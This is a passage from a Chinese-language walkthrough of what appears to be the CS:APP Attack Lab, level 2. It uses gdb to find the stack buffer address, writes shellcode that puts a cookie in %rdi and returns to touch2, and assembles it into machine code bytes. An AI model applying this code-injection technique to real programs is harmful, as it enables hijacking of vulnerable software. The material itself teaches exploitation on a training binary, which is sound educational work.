 ```text
(gdb) r
(gdb) ni
(gdb) p/x $rsp
```

输出信息：

```text
$1 = 0x5561dc78
```

可见此时 `%rsp` 的值为 `0x5561dc78`，这就是缓冲区的起始地址。

##### 2.4.3 构造汇编代码

这段汇编代码需要实现的功能：

1. 将 `cookie` 的值传给 `%rdi` 寄存器（第 1 个参数）；
2. 返回到目标函数 `touch2`。

其中 `cookie` 的值由附件 `cookie.txt` 给出，为 `0x59b997fa`，函数 `touch2` 的地址由 [2.4.1](#241-查看函数-touch2-的地址) 节可知为 `0x4017ec`。

由此构造汇编代码：

```asm
mov    $0x59b997fa,%rdi
push   $0x4017ec
ret
```

因为 `ret` 时将弹栈，并将弹出的值传给 `%rip`，这里 `push $0x4017ec` 的作用就是将函数 `touch2` 的地址先压入栈中。由于栈后进先出（LIFO）的特点，这样弹栈时这个地址就会被当作函数的返回地址。

##### 2.4.4 将汇编代码转换为机器码

将这段汇编代码保存在 `level2.s` 文件中。

使用 gcc 编译得到目标代码 `level2.o`：

```bash
gcc -c level2.s
```

使用 objdump 反汇编 `level2.o`：

```bash
objdump -d level2.o
```

输出信息：

```text
level2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
   7:   68 ec 17 40 00          pushq  $0x4017ec
   c:   c3                      retq
```
